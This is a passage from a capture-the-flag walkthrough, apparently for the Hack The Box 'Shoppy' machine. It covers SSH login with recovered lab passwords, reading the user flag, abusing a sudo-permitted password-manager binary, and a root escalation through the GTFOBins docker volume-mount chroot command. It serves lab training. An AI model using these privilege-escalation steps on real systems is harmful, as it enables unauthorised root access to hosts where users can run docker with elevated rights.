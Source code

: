Based on this comment we can try **ssh**

```sh
ssh jaeger@shoppy.htb
```
**password : ```Sh0ppyBest@pp!```**

<img width="515" alt="loggedinas-jaeger-ssh" src="https://user-images.githubusercontent.com/95465072/208038891-6bb20313-7993-48d8-a698-86776636dc99.png">
ge >

# Got the user flag!!

```
jaeger@shoppy:~$ ls
Desktop  Music  ShoppyApp  user.txt
Documents  Pictures  shoppy_start.sh  Videos
Downloads  Public  Templates
jaeger@shoppy:~$ cat user.txt
3056a9074c4c2bd189e9************
jaeger@shoppy:~$
```

## Privilege Escalation

```sh
sudo -l 
```
<img width="509" alt="sudo-l" src="https://user-images.githubusercontent.com/95465072/208039030-c68a2b91-3b9c-445a-91b3-7878b91cf1b8.png">


By this we can see that we can execute password-manager as root user!

```sh
cat /home/deploy/password-manager
```
``` sudo -u deploy /home/deploy/password-manager```

 <img width="510" alt="deployed-successfully" src="https://user-images.githubusercontent.com/95465072/208039092-98434b3f-7c96-4277-b893-fb8fd4c74aa0.png">


### Try this with ssh again

```ssh deploy@shoppy.htb```
**password : ```Deploying@pp!```**



 It looks like we are in the docker container! 
 **let's try it out with gtfobins payload for sudo**
  
  [gtfobins --> docker --> sudo ](https://gtfobins.github.io/gtfobins/docker/#sudo)


```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

# Congragulations!! got the root flag!

### Root.txt
```d9dd59daa7341501bb93c****************```
<img width="592" alt="shoppy-pawned" src="https://user-images.githubusercontent.com/95465072/208039202-9774e554-d6bf-4691-9210-fdf3d522e7ee.png">
